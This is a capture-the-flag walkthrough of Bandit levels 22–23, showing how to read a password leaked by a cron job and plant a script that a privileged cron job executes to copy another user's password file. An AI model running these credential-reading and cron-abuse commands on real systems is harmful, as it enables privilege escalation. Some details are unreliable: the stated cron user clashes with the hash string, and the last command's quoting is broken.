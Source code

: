`ls -l /etc/cron.d` to see what cronjobs are there
`cat /etc/cron.d/cronjob_bandit23` we find the job we're looking for
`cat /usr/bin/cronjob_bandit23.sh` let's see the contents of the job

```shell
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
```

what the script does?
- **Gets current username** with `whoami` (which is `bandit22` when cron runs).
- Creates a **hash** from the string: `"I am user bandit23"` using `md5sum`.
- **Copies** the password file:
Your job is to **calculate the same md5 hash** the script does, so you know **which `/tmp` file to read**.

`echo "I am user bandit23" | md5sum | cut -d ' ' -f 1`
`cat /tmp/8ca319486bfbbc3663ea0fbe81326349`

Level 23:
`bandit23@bandit:~$ ls -l /etc/cron.d`
`cat /etc/cron.d/cronjob_bandit24`

```shell
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

`cd /var/spool/bandit24/foo`

`echo '#!/bin/bash
`cat /etc/bandit_pass/bandit24 > /tmp/bandit24_pass_for_bandit23' > myscript.sh`
